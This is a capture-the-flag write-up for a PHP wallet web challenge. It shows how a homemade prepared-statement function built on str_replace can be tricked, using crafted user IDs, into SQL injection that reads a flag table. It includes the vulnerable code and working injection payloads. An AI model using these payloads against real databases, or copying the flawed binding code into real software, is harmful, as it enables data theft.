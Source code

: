 # MortAl mage aGEnts (web, 19 solves, 315 pts)

> I want to make a crypto currency. For now, I made the secure wallet service.

> I give you the source code of its service. Can you hack this service? ☆（ゝω・）v 

> ※The database is initialized every hour.

The app's source tell us that the first flag is located in the database and we probably have to usq SQL-injection to get it:

```sql
CREATE TABLE flag1 (
    flag1 VARCHAR(255) NOT NULL
);

INSERT INTO flag1 (flag1) VALUES ('***CENSORED***'); -- Can't guess
```

The app is full of seemingly safe prepared statements:

```sql
$transactor = $app->db->fetch(
    'SELECT * FROM transactor WHERE code = :code',
    [':code' => $code]
);
```

But the implementation is buggy:

```php
public function query($sql, $param = array())
{
    $search = [];
    $replace = [];
    foreach ($param as $key => $value) {
        $search[] = $key;
        $replace[] = sprintf("'%s'", mysqli_real_escape_string($this->link, $value));
    }
    $sql = str_replace($search, $replace, $sql);
    ...
```

Precisely, if we have 2 different paremetrs and we set the first one's value to the name of the second one, things will **break**

More precisely, `str_rplace` will replace the first parameter name twice, both times adding `''` around it.

This is the part we'll be exploiting:

```php
$notes = sprintf('%s remitted', $_SESSION['user_id']);
...
$app->db->query(
    "INSERT INTO account (user_id, debit, credit, notes) VALUES (:user_id, 0, ${amount}, :notes)",
    [':user_id' => $dstUsers['user_id'], ':notes' => $notes]
);
```

This is a good query because we can pretty easily control both arguments that get passed to the insert.

If we now set our user id to `ABC:notesDEF`, the final query will look like:

```sql
INSERT INTO account (user_id, debit, credit, notes) VALUES ('ABC'ABC:notesDEF remitted'DEF', 0, ${amount}, 'ABC:notesDEF remitted')
```

So it's pretty clear we have a injection in the `ABC` part, we'll use it to get the flag:

We're gonna need 2 accounts:

first: `,1000000,100000000,(select(flag1)from(flag1)));#:notes`

second: `,1000000,100000000,(select(flag1)from(flag1)));#`

First one will trigger the sqli and create an account for the second user that contains the flag.

We'll use the second user just to read the flag which will show up in our dashboard.
